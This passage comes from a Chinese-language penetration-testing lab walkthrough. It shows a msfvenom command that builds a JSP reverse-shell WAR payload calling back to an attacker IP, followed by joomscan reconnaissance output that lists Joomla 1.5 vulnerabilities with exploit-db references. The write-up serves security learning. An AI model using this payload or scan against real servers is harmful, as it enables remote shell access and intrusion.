 登陆进去，可以部署 war 文件、使用 msf 生成、如何生成可以看我的[Generate payload with MSF](http://leiblog.wang/Generate-payload-with-MSF/)这篇文章。

```zsh
promote at ~ ❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.56.1 LPORT=4444 -f war > shell.war

Payload size: 1097 bytes
Final size of war file: 1097 bytes
```

### 四、从 8081 端口攻击

![](http://leiblog.wang/static/image/2020/8/OAxKRs.png)

Joomla webpage、所以我们使用 joomscan 来扫描

```zsh
promote at ~/joomscan ±(master) ❯ perl joomscan.pl -u http://192.168.56.101:8081/

    ____  _____  _____  __  __  ___   ___    __    _  _
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  (
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
			(1337.today)

    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

Processing http://192.168.56.101:8081/ ...



[+] FireWall Detector
[++] Firewall not detected

[+] Detecting Joomla Version
[++] Joomla 1.5

[+] Core Joomla Vulnerability
[++] Joomla! 1.5 Beta 2 - 'Search' Remote Code Execution
EDB : https://www.exploit-db.com/exploits/4212/

Joomla! 1.5 Beta1/Beta2/RC1 - SQL Injection
CVE : CVE-2007-4781
EDB : https://www.exploit-db.com/exploits/4350/

Joomla! 1.5.x - (Token) Remote Admin Change Password
CVE : CVE-2008-3681
EDB : https://www.exploit-db.com/exploits/6234/

Joomla! 1.5.x - Cross-Site Scripting / Information Disclosure
CVE: CVE-2011-4909
EDB : https://www.exploit-db.com/exploits/33061/

Joomla! 1.5.x - 404 Error Page Cross-Site Scripting
EDB : https://www.exploit-db.com/exploits/33378/

Joomla! 1.5.12 - read/exec Remote files
EDB : https://www.exploit-db.com/exploits/11263/

```